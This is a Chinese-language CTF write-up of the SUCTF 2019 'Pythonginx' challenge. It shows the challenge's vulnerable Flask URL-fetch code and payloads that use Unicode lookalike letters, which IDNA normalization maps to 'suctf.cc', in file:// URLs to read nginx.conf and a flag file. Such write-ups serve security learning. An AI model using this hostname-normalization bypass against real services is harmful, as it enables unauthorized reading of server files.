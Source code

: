 # [SUCTF 2019]Pythonginx
![](<./img/Pasted image 20221218131056.png>)

---
首页长这样

![](<./img/Pasted image 20221218140730.png>)

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form method="GET" action="[getUrl](view-source:http://8ff217ff-a7da-485a-a779-5fc0748bcc96.node4.buuoj.cn:81/getUrl)">
        URL:<input type="text" name="url"/>
        <input type="submit" value="Submit"/>
    </form>

    <code>
        
        @app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
</body>
</html>
```
字符是好东西（喜

上[数学字母数字符号](https://zh.wikipedia.org/zh-hans/%E6%95%B0%E5%AD%A6%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97%E7%AC%A6%E5%8F%B7)，更有多种变体任您选择

```python
url='http://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬'
```

![](<./img/Pasted image 20221218142130.png>)

标题和注释明示我们和`nginx`有关，尝试访问`/usr/local/nginx/conf/nginx.conf`
```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/local/nginx/conf/nginx.conf'
```

```nginx
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /app/static;
    }
    # location /flag {
    #     alias /usr/fffffflag;
    # }
}
```

```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/fffffflag'
```

![](<./img/Pasted image 20221218144842.png>)

#Web #python #nginx #字符 